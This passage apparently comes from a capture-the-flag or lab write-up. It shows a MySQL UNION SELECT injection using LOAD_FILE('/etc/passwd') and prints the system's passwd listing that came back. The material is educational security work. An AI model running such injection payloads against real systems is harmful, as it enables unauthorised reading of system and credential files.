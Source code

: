 >
> As a security measure, the server does not overwrite exsting files.

MySQL can read files using the `LOAD_FILE()` function. It works:

    
    
    injection> 3 union select load_file('/etc/passwd'),2 from information_schema.user_privileges
    [id: root:*:0:0:Charlie &:/root:/bin/ksh
    daemon:*:1:1:The devil himself:/root:/sbin/nologin
    operator:*:2:5:System &:/operator:/sbin/nologin
    bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
    build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
    sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
    _portmap:*:28:28:portmap:/var/empty:/sbin/nologin
    _identd:*:29:29:identd:/var/empty:/sbin/nologin
    _rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
    _rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
    _fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
    _x11:*:35:35:X Server:/var/empty:/sbin/nologin
    _unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
    _switchd:*:49:49:Switch Daemon:/var/empty:/sbin/nologin
    _traceroute:*:50:50:traceroute privdrop user:/var/empty:/sbin/nologin
    _ping:*:51:51:ping privdrop user:/var/empty:/sbin/nologin
    _unbound:*:53:53:Unbound Daemon:/var/unbound:/sbin/nologin
    _dpb:*:54:54:dpb privsep:/var/empty:/sbin/nologin
    _pbuild:*:55:55:dpb build user:/nonexistent:/sbin/nologin
    _pfetch:*:56:56:dpb fetch user:/nonexistent:/sbin/nologin
    _pkgfetch:*:57:57:pkg fetch user:/nonexistent:/sbin/nologin
    _pkguntar:*:58:58:pkg untar user:/nonexistent:/sbin/nologin
    _spamd:*:62:62:Spam Daemon:/var/empty:/sbin/nologin
    www:*:67:67:HTTP Server:/var/www:/sbin/nologin
    _isakmpd:*:68:68:isakmpd privsep:/var/empty:/sbin/nologin
    _rpki-client:*:70:70:rpki-client user:/nonexistent:/sbin/nologin
    _syslogd:*:73:73:Syslog Daemon:/var/empty:/sbin/nologin
    _pflogd:*:74:74:pflogd privsep:/var/empty:/sbin/nologin
    _bgpd:*:75:75:BGP Daemon:/var/empty:/sbin/nologin
    _tcpdump:*:76:76:tcpdump privsep:/var/empty:/sbin/nologin
    _dhcp:*:77:77:DHCP programs:/var/empty:/sbin/nologin
    _mopd:*:78:78:MOP Daemon:/var/empty:/sbin/nologin
    _tftpd:*:79:79:TFTP Daemon:/var/empty:/sbin/nologin
    _rbootd:*:80:80:rbootd Daemon:/var/empty:/sbin/nologin
    _ppp:*:82:82:PPP utilities:/var/empty:/sbin/nologin
    _ntp:*:83:83:NTP Daemon:/var/empty:/sbin/nologin
    _ftp:*:84:84:FTP Daemon:/var/empty:/sbin/nologin
    _ospfd:*:85:85:OSPF Daemon:/var/empty:/sbin/nologin
    _hostapd:*:86:86:HostAP Daemon:/var/empty:/sbin/nologin
    _dvmrpd:*:87:87:DVMRP Daemon:/var/empty:/sbin/nologin
    _ripd:*:88:88:RIP Daemon:/var/empty:/sbin/nologin
    _relayd:*:89:89:Relay Daemon:/var/empty:/sbin/nologin
    _ospf6d:*:90:90:OSPF6 Daemon:/var/empty:/sbin/nologin
    _snmpd:*:91:91:SNMP Daemon:/var/empty:/sbin/nologin
    _ypldap:*:93:93:YP to LDAP Daemon:/var/empty:/sbin/nologin
    _rad:*:94:94:IPv6 Router Advertisement Daemon:/var/empty:/sbin/nologin
    _smtpd:*:95:95:SMTP Daemon:/var/empty:/sbin/nologin
    _rwalld:*:96:96:rpc.rwalld:/var/empty:/sbin/nologin
    _nsd:*:97:97:NSD Daemon:/var/empty:/sbin/nologin
    _ldpd:*:98:98:LDP Daemon:/var/empty:/sbin/nologin
    _sndio:*:99:99:sndio privsep:/var/empty:/sbin/nologin
    _ldapd:*:100:100:LDAP Daemon:/var/empty:/sbin/nologin
    _iked:*:101:101:IKEv2 Daemon:/var/empty:/sbin/nologin
    _iscsid:*:102:102:iSCSI Daemon:/var/empty:/sbin/nologin
    _smtpq:*:103:103:SMTP Daemon:/var/empty:/sbin/nologin
    _file:*:104:104:file privsep:/var/empty:/sbin/nologin
    _radiusd:*:105:105:RADIUS Daemon:/var/empty:/sbin/nologin